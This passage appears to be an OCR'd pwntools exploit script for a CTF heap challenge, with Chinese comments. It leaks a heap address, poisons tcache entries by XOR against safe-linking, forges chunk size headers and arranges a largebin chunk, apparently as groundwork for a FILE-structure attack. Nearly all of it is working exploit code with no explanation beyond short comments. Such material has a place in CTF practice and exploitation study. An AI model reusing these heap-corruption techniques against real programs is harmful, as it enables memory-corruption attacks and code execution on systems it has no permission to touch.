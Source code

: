 ```plain
    sa(b'Index:', str(idx).encode())
    ru(b'Content:')

def delete(idx):
    sa(b'Choice:', b'4')
    sa(b'Index:', str(idx).encode())

def mchunk_size(size):
    return p64(0) + p64(size)

def pwn():
    cc()

    add(0)
    add(1)
    delete(0)
    show(0)
    heap_addr = u64(rr(5).ljust(0x8, b'\x00')) << 12
    log.success('heap_addr: 0x%x', heap_addr)

    # 提前记录好 _IO_buf_base 和 _IO_buf_end 的相关参数
    length = 0x240
    start = heap_addr + 0x240 
    end = start + ((length) - 100)//2

    delete(1)
    poc = ((heap_addr+0x2c0) >> 12) ^(heap_addr+0x50)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 修改 0x240 的 tcache 数量，并构造好首部
    edit(1, p8(8)*8 + p64(0x241))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    # 将 fd 指向刚刚构造好的 0x240 chunk
    poc = ((heap_addr+0x2e0)>>12) ^ (heap_addr+0x60)
    edit(1, p64(poc))
    add(1)
    add(0) # unsorted_chunk: heap+0x10
    log.success('unsorted_chunk: 0x%x', heap_addr+0x60)
    delete(1)

    add(1)
    edit(1, mchunk_size(0x21))
    add(1)
    edit(1, mchunk_size(0x451))
    for i in range(0x22):
        add(1)

    add(1)
    add(2)
    delete(1)
    delete(2)
    poc = ((heap_addr+0x780)>>12) ^ (heap_addr+0x310)
    edit(2, p64(poc))
    add(2)
    # 获得第一块 largebin_chunk，地址为 heap+0x300
    add(1) 
    log.success('large chunk No.1: 0x%x', heap_addr+0x300)
```